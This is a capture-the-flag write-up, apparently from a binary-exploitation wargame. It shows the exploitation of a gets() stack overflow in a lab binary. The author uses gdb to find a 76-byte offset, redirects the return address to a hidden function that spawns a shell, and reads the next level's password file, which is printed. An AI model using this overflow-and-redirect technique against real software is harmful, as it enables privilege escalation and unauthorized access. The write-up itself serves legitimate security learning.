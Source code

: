 ## Level 1

level1:1fe8a524fa4bec01ca4ea2a869af2a02260d4a7d5fe7e7c24d8617e6dca12d3a

All this program does is get the user input using 'gets'.
```
(gdb) disas main
   ...
   0x0804848d <+13>:	mov    DWORD PTR [esp],eax
   0x08048490 <+16>:	call   0x8048340 <gets@plt>
   0x08048495 <+21>:	leave
   0x08048496 <+22>:	ret
```

So `gets` is a vulnerable function because it doesn't check bounderies, therefore we exploited it via overwriting the caller's return address.
```
(gdb) r < <(python -c 'print("A"*76+"BBBB")')
...
Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
```

We can see that there's a hidden function called `run` that executes `system("/bin/sh")`
```
(gdb) i func
All defined functions:

Non-debugging symbols:
...
0x08048420  frame_dummy
0x08048444  run
0x08048480  main
...
```
```
(gdb) disas run
Dump of assembler code for function run:
   0x08048444 <+0>:     push   ebp
   0x08048445 <+1>:     mov    ebp,esp
   0x08048447 <+3>:     sub    esp,0x18
   0x0804844a <+6>:     mov    eax,ds:0x80497c0
   0x0804844f <+11>:    mov    edx,eax
   0x08048451 <+13>:    mov    eax,0x8048570
   0x08048456 <+18>:    mov    DWORD PTR [esp+0xc],edx
   0x0804845a <+22>:    mov    DWORD PTR [esp+0x8],0x13
   0x08048462 <+30>:    mov    DWORD PTR [esp+0x4],0x1
   0x0804846a <+38>:    mov    DWORD PTR [esp],eax
   0x0804846d <+41>:    call   0x8048350 <fwrite@plt>
   0x08048472 <+46>:    mov    DWORD PTR [esp],0x8048584
   0x08048479 <+53>:    call   0x8048360 <system@plt>
   0x0804847e <+58>:    leave
   0x0804847f <+59>:    ret
End of assembler dump.
```

Now we'll overwrite the previous return address with address of function `run`.
```
~$ (python -c 'print("A"*76+"\x44\x84\x04\x08")'; cat) | ./level1
Good... Wait what?
id
uid=2030(level1) gid=2030(level1) euid=2021(level2) egid=100(users) groups=2021(level2),100(users),2030(level1)
cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```